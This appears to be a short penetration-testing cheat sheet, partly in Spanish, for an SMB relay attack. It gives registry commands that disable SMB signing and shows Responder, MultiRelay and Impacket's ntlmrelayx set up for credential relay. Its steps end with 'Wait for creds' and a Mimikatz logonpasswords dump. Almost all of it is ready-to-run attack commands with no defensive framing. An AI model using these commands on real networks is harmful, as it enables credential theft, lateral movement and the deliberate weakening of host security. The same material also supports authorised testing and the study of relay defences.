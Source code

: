 ```
Import-Module .\Invoke-HoneypotBuster.ps1
Invoke-HoneypotBuster
```

Shared Folder
```
\\ScanFolder\c$
```

Disable SMB Signing
```
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanWorkStation\Parameters" /v "RequireSecuritySignature" /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanWorkStation\Parameters" /v "EnableSecuritySignature" /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanServer\Parameters" /v "RequireSecuritySignature" /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanServer\Parameters" /v "EnableSecuritySignature" /t REG_DWORD /d 0 /f
```


Comando de Busqueda herramientas:
```
find /usr/share/responder/ -name "MultiRelay.py" -print
find /usr/share/responder/ -name "ntlmrelayx.py" -print
```

1. Identify network systems that do not require SMB message validation to detect machine with SMB signing:disabled.
```
cd /usr/share/responder/tools/
python RunFinger.py -i 192.168.0.0/24
```
2. Configure Impacket’s NTLMrelayx to target those systems
```
echo "IP"  >> targets.txt
 ```   
 ```
 cd /usr/share/responder/tools
 python MultiRelay.py -t 192.168.0.4 -u ALL -d
 ntlmrelayx.py -tf targets.txt --smb2support
 ```
3. Disable SMB and HTTP response poisoning in Responder and launch
```
cd /usr/share/responder
```
```
gedit Responder.conf
```
4. Open the Responder.conf file and set the value of SMB and HTTP to Off
```
responder -I eth0 -rv
responder -I eth0 -rdw
```
5. Wait for creds
6. Invoke standard Mimikatz
```
mimi sekurlsa::logonpasswords
```



